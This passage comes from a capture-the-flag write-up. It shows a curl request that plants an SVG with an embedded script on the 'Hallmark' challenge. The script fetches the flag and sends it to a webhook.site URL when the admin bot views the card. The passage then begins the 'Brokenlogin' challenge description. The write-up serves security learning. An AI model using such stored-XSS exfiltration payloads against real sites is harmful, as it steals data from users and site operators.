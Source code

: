 ```bash
curl -X PUT  https://hallmark.web.actf.co/card -d 'id=db106a88-01ae-4540-89c7-f0d7207eb71e&type[]=image/svg%2Bxml&svg=&content=<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag")
    .then((response) => response.text())
    .then((text) => location.href="https://webhook.site/your_webhook_id?s="%2Btext);
</script>
</svg>'
ok%
```
Boom! We now altered the content of that card! and if we go to that card id and looked the source code we will indeed see that it is altered to our XSS-inflicted SVG!

Now we provide the URL with our card id to the admin bot, and verify (to a bot:) that we aren't so easy to deceive like him! Hitting submit button and then we go to our webhook site and there we get the flag!

![the flag!](/assets/img/Hallmark6.png){: .shadow  }

#### Learned: `SVG XSS`, `Loose comparison`


## 7. Brokenlogin
---

|  Difficulty  |  Point  | Downloadable files |
| :----------: |:-------:| :-----------------:|
|    8/10      |  40 pt  |        [Source code](https://files.actf.co/ce4cbaf2a4122a671028b0d3e1c407bbea8d64a3ffb123d63b4d6b6659305042/app.py), [Admin bot code](https://files.actf.co/c9bd78edc3de06985326cc9bda63e719a0c7092c8d8812f71ab6a9e52744db1a/brokenlogin.js)        |

### Challange description

> Talk about a garbage website... I don't think anybody's been able to [log in](https://brokenlogin.web.actf.co/) yet! If you find something, make sure to let the [admin](https://admin-bot.actf.co/brokenlogin) know.



### Solution
---
First, let's look at the website
